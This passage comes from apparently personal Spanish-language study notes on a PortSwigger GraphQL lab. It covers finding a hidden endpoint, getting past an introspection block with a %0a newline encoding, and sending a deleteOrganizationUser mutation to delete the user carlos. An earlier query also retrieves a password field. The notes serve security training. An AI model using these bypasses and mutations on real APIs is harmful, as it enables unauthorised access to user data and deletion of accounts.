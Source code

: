 ```js
	getUser(id:1) {
		id
		password
		username
	}
}
```

### LAB: Finding a hidden GraphQL endpoint

* La app tiene defensas contra la instrospection, sin embargo tiramos un burp intruder a
	`POST / HTTP/1.1` con la lista que definí arriba de danielMiesler y hubo una que devolvió 405 `method not allowed` listo ->
```js
//cambiar el method POST->GET
GET /api /HTTP/1.1 //return: Query not present 

//Añadirle query param y consulta universal. 
GET /api?query=query{__typename}

//Set instrospection 
Sin embargo retorna `instrospection is not allowed` 

//BYPASS ->
//la teoria de la doc de portswigger muchas veces se pueden añadir parametros encodeados, como , saltos de linea espacios : (%2c, %20, %0a)
Añadimos %0a a la query en el __schema
//foto ->
```

![[Pasted image 20250220093208.png]]

 > Aqui lo que podemos hacer es un click derecho > GraphQL > **Save GraphQL Queries to site map**

![[Pasted image 20250220093346.png]]
```js
-> Right click, grpahQL, save graphQL queries to site map
-> In site map observer a deleteOrganizationUser query
-> Send to repeater and change id to 3 to delete carlos

//Es el query que usamos pa eliminar a un user. 
//MUTATION FOUNDED
mutation($input: DeleteOrganizationUserInput) {
  deleteOrganizationUser(input: $input) {
    user {
      id
      username
    }
  }
}
//VARIABLES ->
------
variables deleteOrganizationUser
{
	"input":{
		"id":0
	}
} 
//modificar esta variable a 3 para eliminar al user carlos.
------
```
